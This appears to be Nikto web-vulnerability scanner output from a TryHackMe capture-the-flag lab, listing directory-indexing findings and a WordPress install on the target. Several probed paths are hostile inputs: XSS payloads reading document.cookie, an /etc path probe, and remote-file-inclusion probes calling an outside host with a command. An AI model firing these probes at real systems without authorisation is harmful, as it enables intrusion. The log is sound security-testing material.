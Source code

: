 ```bash
+ OSVDB-3268: /?mod=node&nid=some_thing&op=view: Directory indexing found.
+ OSVDB-3268: /?mod=some_thing&op=browse: Directory indexing found.
+ /./: Appending '/./' to a directory allows indexing
+ OSVDB-3268: //: Directory indexing found.
+ //: Apache on Red Hat Linux release 9 reveals the root directory listing by default if there is no index page.
+ OSVDB-3268: /?Open: Directory indexing found.
+ OSVDB-3268: /?OpenServer: Directory indexing found.
+ OSVDB-3268: /%2e/: Directory indexing found.
+ OSVDB-576: /%2e/: Weblogic allows source code or directory listing, upgrade to v6.0 SP1 or higher. http://www.securityfocus.com/bid/2513.
+ OSVDB-3268: /?mod=<script>alert(document.cookie)</script>&op=browse: Directory indexing found.
 OSVDB-3268: /?sql_debug=1: Directory indexing found.
+ OSVDB-3268: ///: Directory indexing found.
+ OSVDB-3268: /?PageServices: Directory indexing found.
+ OSVDB-119: /?PageServices: The remote server may allow directory listings through Web Publisher by forcing the server to show all files via 'open directory browsing'. Web Publisher should be disabled. CVE-1999-0269.
+ OSVDB-3268: /?wp-cs-dump: Directory indexing found.
+ OSVDB-119: /?wp-cs-dump: The remote server may allow directory listings through Web Publisher by forcing the server to show all files via 'open directory browsing'. Web Publisher should be disabled. CVE-1999-0269.
+ OSVDB-3268: /img/: Directory indexing found.
+ OSVDB-3092: /img/: This might be interesting...
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3268: ///////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////: Directory indexing found.
+ OSVDB-3288: ///////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////: Abyss 1.03 reveals directory listing when 	 /'s are requested.
+ OSVDB-3268: /?pattern=/etc/*&sort=name: Directory indexing found.
+ OSVDB-3268: /?D=A: Directory indexing found.
+ OSVDB-3268: /?N=D: Directory indexing found.
+ OSVDB-3268: /?S=A: Directory indexing found.
+ OSVDB-3268: /?M=A: Directory indexing found.
+ OSVDB-3268: /?\"><script>alert('Vulnerable');</script>: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-3268: /?_CONFIG[files][functions_page]=http://cirt.net/rfiinc.txt?: Directory indexing found.
+ OSVDB-3268: /?npage=-1&content_dir=http://cirt.net/rfiinc.txt?%00&cmd=ls: Directory indexing found.
+ OSVDB-3268: /?npage=1&content_dir=http://cirt.net/rfiinc.txt?%00&cmd=ls: Directory indexing found.
+ OSVDB-3268: /?show=http://cirt.net/rfiinc.txt??: Directory indexing found.
+ Retrieved x-powered-by header: PHP/8.0.28
+ Uncommon header 'link' found, with contents: <http://avenger.tryhackme/gift/wp-json/>; rel="https://api.w.org/"
+ /wordpress/: A Wordpress installation was found.
+ OSVDB-3268: /?-s: Directory indexing found.
+ 6544 items checked: 0 error(s) and 42 item(s) reported on remote host
+ End Time:           2025-07-20 20:25:23 (GMT1) (99 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
